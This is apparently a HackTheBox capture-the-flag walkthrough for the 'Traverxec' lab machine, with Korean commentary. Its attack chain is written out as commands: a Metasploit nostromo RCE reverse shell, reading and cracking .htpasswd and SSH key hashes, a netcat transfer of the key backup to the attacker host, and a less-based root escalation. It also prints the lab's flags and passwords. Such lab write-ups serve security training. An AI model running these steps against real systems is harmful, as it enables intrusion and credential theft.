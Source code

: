 # HackTheBox Walkthrough - Traverxec

**Machine Name**: Traverxec  
**Target IP**: 10.129.3.17  
**Difficulty**: Easy  
**Objective**: Exploit `nostromo 1.9.6` for remote code execution and escalate privileges to root.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Traverxec 10.129.3.17
```

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
```

> nostromo 1.9.6 웹 서버 취약점 존재

---

## ⚔️ Exploitation

### 🧨 Exploit nostromo 1.9.6 RCE

- Reference: [exploit-db: 47837](https://www.exploit-db.com/exploits/47837)
- Metasploit 사용

```bash
msfconsole
search nostromo
use exploit/multi/http/nostromo_code_exec
set RHOSTS 10.129.3.17
set LHOST 10.10.14.156
run
```

> www-data 권한의 리버스 셸 획득

---

## 🧪 Post Exploitation

### 🔐 .htpasswd 파일에서 해시 확인

```bash
cat /var/nostromo/conf/.htpasswd
```

**Hash**
```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### 🔓 Hash Cracking

```bash
hashcat -m 500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

> **Password**: `Nowonly4me` (하지만 SSH 로그인 실패)

---

## 📂 SSH Private Key 획득

```bash
cat /var/nostromo/conf/nhttpd.conf
```

```
homedirs                /home
homedirs_public         public_www
```

```bash
ls -al /home/david/public_www/protected-file-area
```

```
backup-ssh-identity-files.tgz
```

### 📥 파일 다운로드 및 추출

```bash
nc -lvp 1234 > backup.tgz   # 공격자
nc 10.10.14.156 1234 < backup.tgz   # 타겟
tar -xvf backup.tgz
```

**파일 내역**: `/home/david/.ssh/id_rsa`

### 🧾 SSH 프라이빗 키 크랙

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

> **Passphrase**: `hunter`

```bash
ssh -i id_rsa david@10.129.3.17
```

✅ **david 유저 셸 획득**

---

## 🧑‍💻 User Flag

```bash
cat /home/david/user.txt
```

**Answer**: `7482a1ad8a5d9d3ca79b56af29cb9681`

---

## 🚀 Privilege Escalation

### 🔍 Sudo 권한 분석

`sudo -l`은 실패했지만 `/home/david/bin/server-stats.sh` 내에 `sudo journalctl` 명령 확인됨:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

### ⚠️ Exploit: GTFOBins - `less`

```bash
sudo journalctl -n5 -unostromo.service
```

- `less` 명령으로 실행됨
- `!sh` 입력으로 쉘 실행 가능

```bash
!sh
```

✅ **root 권한 획득**

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

**Answer**: `99c4afb02ff822396f59b4ff250a4639`
